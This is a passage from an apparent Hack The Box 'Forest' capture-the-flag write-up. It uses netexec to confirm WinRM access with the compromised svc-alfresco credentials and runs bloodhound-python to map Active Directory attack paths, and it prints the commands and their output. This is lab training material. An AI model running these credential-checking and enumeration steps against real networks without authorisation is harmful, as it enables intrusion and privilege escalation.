 Using `netexec`, we quickly confirmed that the compromised account has remote management privileges on the target machine. This allows us to obtain a shell on the target using `evil-winrm`, which we will utilize later.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/forest]
└─$ netexec winrm 10.129.59.175 -u svc-alfresco -p 's3rvice'
WINRM       10.129.59.175   5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.129.59.175   5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```
### Bloodhound

Next, we will use the same account to run `bloodhound-python`, a Python-based implementation of the popular BloodHound tool. BloodHound is a powerful Active Directory (AD) attack simulation and enumeration tool that helps security professionals identify potential attack paths within an AD environment. It maps out relationships and permissions across users, groups, and services, making it easier to spot privilege escalation opportunities. By leveraging `bloodhound-python`, we can automatically gather and analyze these relationships, helping us pinpoint high-value targets and vulnerabilities in the network’s security posture.


```shell
┌──(frodo㉿kali)-[~/hack-the-box/forest]
└─$ bloodhound-python -d htb.local -ns 10.129.59.175 -u svc-alfresco -p 's3rvice' -c All --zip
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (FOREST.htb.local:88)] [Errno 111] Connection refused
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 24S
INFO: Compressing output into 20241119222342_bloodhound.zip
```
> We can collect the same details using `netexec` as well:
{: .prompt-tip }

```shell
netexec ldap 10.129.59.175 -u svc-alfresco -p 's3rvice' --bloodhound --collection All
```

#### Analyzing the BloodHound Data

